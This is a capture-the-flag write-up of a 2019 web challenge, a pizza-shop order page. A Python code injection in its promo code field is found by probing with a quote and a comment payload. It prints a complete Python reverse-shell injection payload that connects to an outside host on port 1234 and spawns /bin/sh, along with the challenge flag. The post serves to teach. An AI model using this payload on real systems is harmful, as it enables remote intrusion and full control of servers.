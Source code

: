 ```yaml
---
title: Deloitte CTF Quals 2019: g0dmode's Pizza Shop 🍕
slug: deloitte-godmod-pizza
date: 06/11/2019
---
```


*g0dmode's Pizza Shop* 🍕 was a task labelled web and worth 300 points. It is
a standard Python command injection. I felt like it was worth way too much
points for the difficulty.

![Task Description](/assets/pizza-god/intro.png)

As always, quick nmap scan:

```
$ nmap 3.9.188.161
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:57 GMT
Nmap scan report for ec2-3-9-188-161.eu-west-2.compute.amazonaws.com (3.9.188.161)
  Host is up (0.0037s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  80/tcp   open     http
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

We have a web application on port 80:

![Web Application](/assets/pizza-god/web_app.png)

The challenge description makes it clear that we have to inject some command
into the promo code field of the order page. We can totally ignore the
account mechanism.

![Order Page](/assets/pizza-god/order.png)

Let's try with a very simple payload: a single quote `'`. We get back an error:

![Order Page](/assets/pizza-god/crash.png)

The error looks like a Python quote parsing issue. My guess is that the backend
looks something like:

```
promo_code = ord('<USER_INPUT>')
```

If my guess is correct, the payload `') #` should produce no error, as we just
complete the function call and transform the end of the line into a comment
like so:

```python
promo_code = ord('') #')
```

My guess turned to be correct. So I decided to inject some reverse shell
payload. A friend told me to take a look at
[this website](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Let's tweak their Python payload a little bit:

```python
'); import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("geographer.fr",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]); #
```

We get a root shell immediately:

![Root shell](/assets/pizza-god/root.png)

Final flag: `dctf{python_code_injection_via_unsafe_exec_call_oops1e}`.